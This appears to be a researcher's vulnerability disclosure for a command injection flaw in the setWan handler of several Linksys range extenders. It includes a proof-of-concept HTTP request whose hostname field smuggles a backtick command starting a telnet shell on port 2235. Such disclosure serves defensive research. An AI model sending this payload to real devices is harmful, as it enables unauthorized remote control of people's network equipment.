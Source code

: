 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `setWan` function, `hostname` is directly passed by the attacker, so we can control the `hostname` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

`mod_form.so->internet.sh->um_red`

In `um_red` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `hostname` as **`busybox telnetd -l /bin/sh -p 2235`** , and the router will excute it,such as:

```http
POST /goform/setWan HTTP/1.1
Host: extender.linksys.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://extender.linksys.com
Connection: close
Referer: http://extender.linksys.com/admin/log.shtml
Cookie: session_id=AnN5TD0hy6ydUJ4D3PAQEaHuYKCoS5nc
Upgrade-Insecure-Requests: 1

connectionType=DHCP&manuallyDNS=&staticPriDns=&staticSecDns=&FriendlyName=&hostname=`busybox telnetd -l /bin/sh -p 2235`
```



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

